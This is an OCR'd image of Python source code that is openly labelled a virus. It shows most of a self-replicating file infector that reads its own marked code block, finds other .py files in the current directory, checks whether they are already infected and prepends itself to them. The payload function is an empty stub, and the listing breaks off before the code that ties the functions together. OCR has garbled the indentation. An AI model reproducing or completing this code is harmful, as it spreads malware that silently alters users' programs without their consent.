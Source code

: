 
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
42
43
44
45
46
47
48
49
50
51
52
53
54
55
56
57
58
59
60
61
62
63
64
#!/usr/bin/env python
 
##### VIRUS BEGIN #####
import os, glob, sys, re
 
def getVirusFromSelf():
    "getVirusFromSelf - Returns the lines of the virus in a list"
    code = []
   fileHandle = open(sys.argv[0], "r")
   inVirus = False
   while 1:
       line = fileHandle.readline()
       if not line: break
       if re.search("^##### VIRUS BEGIN #####", line): inVirus = True
       if inVirus: code.append(line)
       if re.search("^##### VIRUS END #####", line): break
   fileHandle.close()
   return code
 
def getPythonList():
   "getPythonList - Return a list of Python programs"
   progs = glob.glob("*.py")
   return progs
 
def readFile(filename):
   "readFile - Returns a list of lines in a file"
   fileHandle = open(filename, "r")
   code = []
   while 1:
       line = fileHandle.readline()
       if not line: break
       code.append(line)
   fileHandle.close()
   return code
 
def isInfected(code):
   "isInfected - Returns True if infected, False if not"
   for line in code:
       if re.search("^##### VIRUS BEGIN #####", line): return True
   return False
 
def infectCode(progCode, virusCode):
   "infectCode - Inserts the virusCode into the progCode"
   code = []
   if re.search("^#!", progCode[0]): code.append(progCode.pop(0))
   for line in virusCode: code.append(line)
   for line in progCode: code.append(line)
   return code
 
def writeFile(filename, code):
   "writeFile - Write the lines in a list of code to a filename"
   fileHandle = open(filename, "w")
   for line in code:
       fileHandle.write(line)
   fileHandle.close()
 
def virusPayload():
   "virusPayload - Function for what the virus should do"
   pass
